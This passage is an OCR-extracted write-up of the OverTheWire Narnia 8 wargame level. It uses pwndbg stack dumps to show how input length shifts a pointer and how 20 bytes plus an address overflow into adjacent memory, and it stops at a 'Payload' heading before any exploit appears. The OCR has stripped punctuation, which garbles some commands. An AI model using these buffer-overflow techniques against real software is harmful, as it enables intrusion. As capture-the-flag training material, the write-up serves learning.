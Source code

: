    endhighlight   

A breakpoint was then set at the nop operation  and an input of 5 A s was passed  this amount was chosen arbitrarily  

   highlight bash   
pwndbg  b  0x0804848d                                                                                                                                                          
Breakpoint 1 at 0x804848d                                                                                                                                                      
pwndbg  r   python  c  print  A  5                                                                                                                                            
Starting program   home 0xd4y business other overthewire narnia 8 narnia8   python  c  print  A  5                                                                            
AAAAA                                                                                                                                                                          
                                                                                                                                                                             
Breakpoint 1  0x0804848d in func                                                                                                                                           
   endhighlight   

      Local 8 Address Behavior

The stack pointer can now be analyzed 

   highlight bash   
pwndbg  x 40x  esp  
0xffffd044      0x41414141      0x00000041      0x00000000      0x00000000  
0xffffd054      0x00000000      0xffffd2f9      0xffffd068      0x080484a7  
0xffffd064      0xffffd2f9      0x00000000      0xf7ddfe46      0x00000002  
0xffffd074      0xffffd114      0xffffd120      0xffffd0a4      0xffffd0b4
   endhighlight   

Note how there are 5 A s starting at 0xffffd044 followed by 15 0 bytes  The 0 s are a result of the memset function  These 0 s are then followed by the 0xffffd2f9 address  Examining this address reveals that it is pointing to the local 8 buffer 

   highlight bash   
pwndbg  x s 0xffffd2f9  
0xffffd2f9       AAAAA 
   endhighlight   

Interestingly  running the program again but inputting 6 A s instead of 5 results in a decrement of 1 to the local 8 address 

   highlight bash   
pwndbg  x 40x  esp  
0xffffd044      0x41414141      0x00004141      0x00000000      0x00000000  
0xffffd054      0x00000000      0xffffd2f8      0xffffd068      0x080484a7  
0xffffd064      0xffffd2f8      0x00000000      0xf7ddfe46      0x00000002
   endhighlight   

Furthermore  when inputting more than 20 bytes  the address of local 8 gets overwritten by one byte 

   highlight bash   
0xffffd034      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd044      0x41414141      0xffffd241      0xffffd058      0x080484a7
   endhighlight   

However  when exactly 20 bytes are inputted followed by the address of local 8 and some junk  we are able to flood into other areas of memory 

Payload 
